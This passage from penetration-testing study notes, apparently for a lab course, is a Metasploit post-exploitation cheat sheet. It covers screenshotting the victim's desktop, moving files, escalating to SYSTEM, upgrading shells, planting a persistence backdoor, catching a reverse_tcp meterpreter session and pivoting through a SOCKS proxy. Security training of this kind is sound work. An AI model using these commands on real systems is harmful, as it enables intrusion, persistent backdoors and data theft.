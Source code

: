Tip: once we get a shell we can use `screenshot` to get a picture of what the victim is seeing on the Desktop\
Tip: once we get a shell we can use `download filename location` to save the filename in the specified location on our machine\
Tip: Same syntax as above but use `upload` to upload files\
Tip: Use `getsystem` to gain the highest privilege (i.e. SYSTEM) on the compromised machine and `getuid` to check if it actually worked.

**Upgrading a simple shell**

```bash
bash -i
```

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

**Maintaining access using Metasploit (Windows)**

Inside a meterpreter session:

* `background`
* `use exploit/windows/local/persistence_service`
* `show options`
* `set SESSION <session-id>`
* `exploit`

Use the backdoor:

* `background`
* `sessions -K`
* `use exploit/multi/handler`
* `set PAYLOAD windows/meterpreter/reverse_tcp`
* `set LHOST <your-ip>`
* `set LPORT 4444`
* `exploit`

Note: The `<session-id>` is the one you can read when you type `background`\
Note: We need to use the same information about the backdoor to receive a new meterpreter session on the multi-handler. We can't change Payload, IP or Ports details.

**Pivoting using a SOCKS Proxy**

You have access to a compromised host and only from there you can access another machine. That machine exposes a web server, in order to access it from your computer set up a SOCKS proxy.

Add the route to the unreachable network using autoroute or route.

```bash
msf > use auxiliary/server/socks_proxy
msf > set VERSION 4a
msf > set SRVPORT 9050
msf > run -j
```

```bash
root@INE:~# proxychains nmap ...
```

